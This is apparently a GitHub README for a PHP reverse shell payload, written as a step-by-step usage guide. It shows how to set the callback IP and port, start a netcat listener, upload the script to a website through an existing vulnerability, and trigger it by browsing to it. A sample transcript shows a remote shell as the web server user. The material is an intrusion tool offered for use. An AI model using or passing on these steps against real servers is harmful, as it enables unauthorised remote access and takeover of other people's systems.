 # reverse_shell_php
A PHP Reverse_shell Payload - use it at your own risk!

- Guide :
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):

$ nc -v -n -l -p 1234

Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

http://somesite/php-reverse-shell.php

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:

$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10                                                                                                
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
